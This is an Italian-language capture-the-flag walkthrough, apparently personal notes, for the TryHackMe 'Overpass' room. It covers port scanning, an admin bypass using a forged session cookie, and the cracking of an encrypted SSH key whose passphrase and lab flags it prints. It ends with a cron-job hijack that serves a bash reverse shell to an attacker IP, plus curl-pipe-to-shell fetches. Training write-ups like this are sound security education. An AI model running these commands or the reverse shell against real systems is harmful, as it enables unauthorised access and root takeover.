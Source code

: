 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/overpass

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.129.108 -oG risultatoscan 
```

```
 cat risultatoscan
```

```
sudo nmap -sC -sV -p22,80 10.10.129.108 -oN risultatoscan2
```

```
searchsploit OpenSSH
```

```
gobuster dir -u http://10.10.129.108 -w /usr/share/wordlists/dirb/common.txt -t50
```


http://10.10.129.108/admin/
visualizziamo codice sorgente

view page source
troviamo riferimento a login.js
```
<script src="[/login.js](view-source:http://10.10.129.108/login.js)"></script>
```

```
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```
c'è una condizione if se lo stato dei Cookie riporta "SessionToken" ci logghiamocome admin

andiamo su storage cookie facciamo + e rinominiamo il cookie con SessionToken
aggiorniamo pagina e siamo dentro come admin!

troviamo utente james:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```

```
nano id_rsa
```
ci copiamo la chiave
```
ssh -i id_rsa james@10.10.179.100
```
ci richiede una password che non abbiamo!

==trasformiamo la chiave rsa in hash e la andiamo a decriptare sempre con john==
```
ssh2john id_rsa > id_rsa.hash
```

```
cat id_rsa.hash
```

```
john -wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

```
john --show id_rsa.hash
```
trovata password!
```
james13
```

```
ssh -i id_rsa james@10.10.179.100
```

da errore di permessi  del file id_rsa

```
sudo chmod 600 id_rsa
```
ci riconnettiamo e inseriamo la password trovata

```
ssh -i id_rsa james@10.10.6.110
```

```
cat user.txt
```
prima flag!
```
thm{65c1aaf000506e56996822c6281e6bf7}
```


```
find / -perm -4000 -ls 2>/dev/null
```
prima di Suid andiamo a vedere su che binario abbiamo i permessi di root
```
sudo -l
```

non troviamo niente di utile cerchiamo nel ==crontab==

```
cat /etc/crontab
```
troviamo un curl utilizzato come root su questo percorso che finisce in un bash script
```
root curl overpass.thm/downloads/src/buildscript.sh | bash
```
	overpass.thm (punta al localhost come vediamo in seguito)
```
cat /etc/hosts
```
127.0.0.1 overpass.thm

invece di farlo puntare al localhost lo facciamo puntare alla nostra macchina 
dove ci tiriamo su un server con python e una reverse shell allo script buildscript.sh

Per trovare facilmente come scalare i privilegi possiamo utilizzare linpeas [[linPEAS_info]]
https://book.hacktricks.xyz/linux-hardening/privilege-escalation
che trova automaticamente i vettori di escalation dei privilegi. 

eseguito direttamente da  github 
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
senza curl scaricato in locale (utilizziamo questo metodo)

```
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```

```
chmod +x linpeas.sh
```

dal pc attaccante apriamo un server python
```
sudo python3 -m http.server 8080 #Host
```
dalla vittima  facciamo puntare al nostro IP al tools linpeas
```
curl 10.21.9.220:8080/linpeas.sh | sh 
```


Guardando l'output dei linpeas

Scopriamo che c'è un cronjob in esecuzione ogni minuto

Che esegue curl

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

Ciò che rende il cronjob ancora più interessante è che viene eseguito come root, il che significa che se lo sfruttiamo saremo root.

Ma diamo uno sguardo più da vicino al comando eseguito

curl overpass.thm/downloads/src/buildscript.sh | bash

Ci scarichiamo dal webserver la risorsa trovata
http://10.10.179.100/downloads/src/buildscript.sh

ora dobbiamo ricrearci su nostro pc il percorso preciso della risorsa downloads/src/buildscript.sh

```
cd /home/kali/Downloads/
```

```
mkdir downloads
```

```
cd downloads
```

```
mkdir src
```

```
cd /home/kali/Downloads
```

```
mv buildscript.sh downloads/src
```

```
nano downloads/src/buildscript.sh
```
aggiungiamo all'inizio con il nostro IP porta 4444
```
bash -i >& /dev/tcp/10.21.9.220/4444 0>&1
```
gli diamo i permessi di esecuzione
```
chmod +x downloads/src/buildscript.sh
```
ora sulla macchina vittima 
```
nano /etc/hosts
```
e modifichiamo IP con il nostro 127.0.0.1 overpass.thm
```
10.21.9.220 overpass.thm
```

dal pc attaccante apriamo un server python
```
cd /home/kali/Downloads
```

```
sudo python3 -m http.server 80
```
ci mettiamo in ascolto con netcat e attendiamo come abbiamo visto da cron tab che passi un minuto che si connetta
```
nc -nlvp 4444
```
ottenuta la reverse shell
```
cat root.txt
```

```
thm{xxxxxxxxxxxxxxxxxx}
```

